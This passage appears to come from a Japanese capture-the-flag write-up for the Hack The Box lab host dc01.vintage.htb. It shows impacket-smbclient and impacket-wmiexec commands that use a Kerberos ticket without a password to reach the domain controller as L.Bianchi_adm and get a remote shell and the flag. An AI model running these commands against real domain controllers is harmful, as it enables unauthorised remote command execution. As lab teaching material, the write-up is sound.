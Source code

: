 ドメインコントローラーには `L.Bianchi_adm` のローカルアカウントが存在しないのでpsexecを使うことはできません。

`impacket-smbclient`,`impacket-wmiexec`で`L.Bianchi_adm` としてアクセスすることでフラグを取得できました。

```bash
impacket-smbclient -k -no-pass dc01.vintage.htb
```

![image-20250111162440643](screenshot/image-20250111162440643.png)

```bash
impacket-wmiexec -k -no-pass dc01.vintage.htb
```

![image-20250111162537804](screenshot/image-20250111162537804.png)





